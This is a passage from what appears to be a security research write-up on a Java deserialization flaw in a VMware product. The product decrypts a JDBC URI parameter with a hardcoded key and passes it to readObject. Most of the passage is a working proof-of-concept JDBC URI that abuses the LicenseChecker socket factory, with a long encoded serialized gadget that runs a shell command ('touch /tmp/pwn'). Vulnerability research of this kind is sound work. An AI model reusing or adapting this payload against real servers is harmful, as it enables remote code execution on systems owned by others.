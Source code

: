 At *[6]* the code will call decrypt, and decrypt the string using a hardcoded key. Then at *[7]* the code will call `readObject` on the attacker supplied string. At this point we could supply our deserialization gadget right into the jdbc uri string, removing any outgoing connection requirement! Here is a proof of concept to execute the command `touch /tmp/pwn`:

```
jdbc:postgresql://si/saas?socketFactory=com.vmware.licensecheck.LicenseChecker%26socketFactoryArg=yv7a3gAACwQAAAAIUhcrRObG2UIAAAAQoz1rm0A08QaIZG2jKm3PvgAACuBO%252Bkf56P3LYUtlxM%252Fd9BtAjxDOFJAiL9KmHfk1p01I544KCUNyVi2UpONDLJHejQCbZi20R8JW3zg879309FDfjSabzvJ2PxvJafQqei8egUOn32BJngdb1r0jwJ8rrxsheJQc3BXJny6pma9pHciqmjJUioTfyKousm%252Fk8YiId8nFu0IX2yQS3GkvV%252FUHCz06KusffoQatuTOL465%252BChdQG88W9FGawgr7Pc9TzZTDZoy%252Bel83sU9hFqcW0oaDgQGtvsVjovnL71fsbQ2ik4C0p8lKxgGRamJmZKl5UvrWpgbOoi5ueTPvr2RgsvyrYno%252Bg3EghzuYjfgdG5owEIPAbHY39mgsjnFR5VZlJR6xmeEkadeGYfvhv%252FU9X57N6a3jmUvCpd50a96GQawp%252BmnfNx5hvp7z%252BjKuSecJ9ruTClM7P9XnU0hspHYgPIXk085Vhdh0P%252BECl%252F7pAAq0rZVEittj43DZhRDbvjqnEbd%252FvueXUK3e0Ld7PZ5oZa055dPxI7uw9FPYMEGnq6WLjFAyZT13QrnITd7uESJE82ZCgDLT7V81UHv3E9DPFPsryRITA9wAu4EycM4aGlh%252FcJzmxKCG%252Fcrt9FvzeQd4SGxhOK7i2I%252B4OUy8mjKgDh4dajVM8cVEogVqnyPWCP7ZYJsPrUlx2F6lhGo53%252BuBQzMzu2IerBZRVeE43CsxfBW1073y8FRYxX8A8w%252BaGikZUcanJ6T%252FfW0z7ENfTTXJYzt%252BNaEsZo5Q2FTeOgzg9%252BLE9d64w7P4SZ5HjIl4xnji2KjUZ2%252FGzzRhSxbsy3EyHvWJurBaNx1mOuYReexqHe7Va1mKjJHizU88T9kn6IVc8yCO9npFl%252Bh4uLAiruwHCC0YZK4O%252F%252BmfOb%252Fb3WescghMkp2s%252FxMe4bfjeomQWqzobztKry32vWM%252BovpDJHbOlTANviW50AzaXCVjGF10Ch86XAsHyiEpb44CzaMSWXV%252BfnQFw%252FRgY9uhv%252FUoUtxZs%252FmOpzSxgywFUNGaC1%252FoMXWmqJ5pne2fO2tH3EYyLhBIbK4GpTY5vzC8yRqYAyVW6LgkK%252FLZerScwc49NjWLZXMYOr9bsH2Ed2TEoy5sYUnMPmN19%252FZQqYWO2N1UaCV1D7F9V3z6fKRuhq0EyNj5RvXg%252BdUz%252FBuUzoju7Rbky1dYg3mQr4AbX94bi%252FLK5mdWlPcavJJlmBJGpxClGQmE%252BxpW2WVrQtAOGJrlcC0oTJSbe8ynPWoXbhqW3uXsNU2r5a2axQgNJfQDGomgtViDeqARbMrAoicMHIUH%252B1GDv9tLwaKMcBJC48ENoUrUfaFn68S9pFesqvjzvMB0Q%252BLmiXF9pfO02fVG5FWuMwouEYANrbnbL7MiPqoGPTwS6547LJh%252BScQ4dYc1Ga%252Bqfxh0NCXSfeetVdY7w7rilctRpe%252Fgchj6Q7SAK2%252BcX%252B0qlozTXdBhYvCOgWoXf5OYelsPJp%252BYPylKJyKC4v1fPskeZic8SA5EPKBQGmcwP09BmwD6J7t9GFMyvnxgl1Zlr5EggDqT7QXW0RhH4e%252FM7Jjhp4D%252F%252F1y8nfEfM23MqrRSZ%252B33P5xMXrbA7SgUbaC8fFlma85xpcaS1VBvs4%252FvUNs5Wsl9D2hAsiiBFu3vQiGXJVsB7KmV8Vuh2shiD8Akq5R2%252F3oSb1t%252BLm0ZcIP4MYLtvGkyfBXj81C3KKKNta4tZTpZW7MfeiXo%252FMoorn06fxlh7elFoPYLZ5eA7DB0jwBtUJ1Ay4xNgL24DnQlIwWkTrZJvdIzs0zTvFv3yYvgq4CaNwDDBbGdYufSRULnI8BAJgedXQqVkV9a3W4nK%252FYCMyczUZ%252FI2Nsslf4zqb3s1RJltGAPsHoR7YjKC1iZG1b%252BYGSN%252FyCW6RZJGxESArr3a1pcNndQUIzabKjIotYOFtMdrAdF9xXKNcMYN8qdFhAJ6PUkS%252FRuu%252F7YxM9xzpN9%252Br4JuuwnO8P6n4l9mib8J6ElX1GXw5Tc7MpdVcW%252BUqkKRLICuh1H5f53E8MO4ESJ2Ku56xvNZyJ0Ai2LDzumgORDeVJa4BLrUgeRkTZqOkYdRWHXrFTTP9HFgXobAQqj75nRkpFEQMEzbKSjdQAU%252B%252Bq2730wMh5LuVRui7HUPnvUCZDpkgDr9GDMGJitt%252FU6RtHqQmYB%252B%252FpFLr7m3g1tazYHvEyrQjBKdhv2FfijNtYaskJqkqPx3uRMSy%252F5l6wmQQlwbOTGXlAdUtVfKpO537dXFOofuN%252BuzIAQdXaLRddhE7fFhhrMwQXuj1jCDi70d%252FWBsy6lHxephuN5ANcl3IuGhx4MV0XRbZpt4MpGqJ2eZM18UCyk%252Fg4a%252Bgp0eRQWgA3KPJ9pZJiGk8EBFBeqsu2Y%252BIcVjGLKzghcdPpsBt3ef1TKUO0DZbS2RLMvA1dtq1vxGYuAIMHJ%252BxREAwSywn7ON9RqrF56hS91rlYJfBjPC%252FSurUVD98wa9WjqygmVsiI78QzExmrAmstUz5WsvLFl%252BoYKR%252FRLKYtjihNvFaSPYkbRNJ1GzKL0ZOXMyDJ3KcPeSkJa13vbJqmBO1JAuG8sfuRXjmaYNWdXI%252Bb%252Bkhs4V5o9IYnehTZgj4LHS7idmBjbWskldTDZHxofnnGKZenTPzbfsCzDKaGg5evEO6qpk%252FegKKK6ORyfxulQB0%252B5wzl0Z1TW3eLuRzi8jeo%252Fx3OOqgbLIqnfWFFfhezTnSYYBJdVEC4hwRksjZ9AReieEKYeZyqb1Hybg4w3q1H2I16iH4ku5R%252FCJnZBHcgPRZniF1Bohq79vgyJs9MAsfTwc%252F%252BAXUBbV8DnfdxoWwzLms6cqP2Bcuu86qORtOE4K5fNMEvYAy30%252FE70zdZoNMS%252BOsb0Lbl1cuxVpuwza0herBOLDBNlPMbi90pQ7Mt6OA7VwCiUW3TsdivLEPYKBQ3q5a5R0DEScmh5Y9BGYxgwXKfACbTjXHkrCcGLwSxTvEFJ4sjTxa%252By3rgVjWTXaRy91GRfcoNouIBmY%252FDj1ilIYPRBTP23a9IdO4M%252F4R%252FLlX454wJksnuTu6sTID7G1ELvBHCyFxjMAl0meovxnI1uZ6PuWDaC5ax4WIeG2PodvqHKdRLbU0OzmD8XyjdxY4c%252F%252FJQRl85xQ8LdlgWMrTTIlWy6jf0Z2ERwc5Oi7DK5WMZD9p2b3lARlNgo0LORSenjefQkIjAqEXXLpRYTAeJXmHJiK3iCnrNO2R8QmdujTPQthLQaAnoDuHf7Mt1iWnUTuwYv9e64ndK7lZ3%252FBjb4MYssgc9PavSz9tAP00jZXZbq%252BM2zl2AukG0IMtunNv86dO%252BlekCjSgv%252BGH7KxNa5Yb1dlvR62c2vhE8U%252Bq%252BEU7CR4Z8lfJoAYrHMcWqlerIdc44GskzJVKb4LbpLqCMQFx3Gh%252Fq%252FwuwguPLDiQCNnyta5d9QO3aoY4BkzimWshsgyJzesREag3YehFjvfUSl%252B2Ytn5J2aHZmx3tOPrh1fa6480lb%252BWC%252Bex40M4RjPXOQKxB07UWUvumml%252BYwA8jqCcwhz0n2gHUsFHq4UovgBlETV9r7uOTX6hDHO5ztgca6c1KUINt1LA2EzFd6Hedjzx5%252FjVJb8SyviMQl4SyCeyPRS8FMGkPda8oGAiPGyc99tcQg6XItDYG0XIw%252BN59tQ8Pvfx9EBM1TOcP7NGWb7LdZixcDnLDBw77kVwxJEvcGZ2sTqIG7VdZvNsGupRwLqqeLkEpQM4%253D
```
